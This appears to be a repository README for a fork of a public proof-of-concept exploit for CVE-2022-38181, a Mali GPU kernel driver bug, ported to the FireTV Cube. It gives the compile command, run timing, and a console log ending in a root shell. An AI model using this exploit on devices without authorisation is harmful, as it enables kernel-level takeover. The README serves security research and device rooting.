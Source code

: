 ## Exploit for CVE-2022-38181 to run on FireTV 3rd gen Cube

This is a fork of security researcher Man Yue Mo's <a href="https://github.com/github/securitylab/tree/main/SecurityExploits/Android/Mali/CVE_2022_38181">Pixel 6 POC</a> for CVE_2022_38181.  Read his detailed write-up of the vulnerability <a href="https://github.blog/2023-01-23-pwning-the-all-google-phone-with-a-non-google-bug/">here</a>.  Changes have been made to account for FireOS's 32bit userspace. The POC exploits a bug in the ARM Mali kernel driver to gain arbitrary kernel code execution, which is then used to disable SELinux and gain root.  

I used the following command to compile with clang in ndk-21:
```
android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/armv7a-linux-androideabi30-clang -DSHELL mali_shrinker_mmap32.c -o raven_gazelle
```
The exploit should be run 30-90sec after the Cube boots for greatest reliability.
```
gazelle:/ $ /data/local/tmp/gazelle_shrinker
fingerprint: Amazon/gazelle/gazelle:9/PS7613.3701N/0025401652480:user/amz-p,release-keys
failed, retry.
failed, retry.
region freed 47
alias gpu va 100c83000
read 0
cleanup flush region
release_mem_pool
jit_freed
jit_free commit: 6 0
Found freed_idx 6
Found pgd 23, 100d30000
overwrite addr : 104100558 558
overwrite addr : 104300558 558
overwrite addr : 10410082c 82c
overwrite addr : 10430082c 82c
result 50
gazelle:/ # 
```
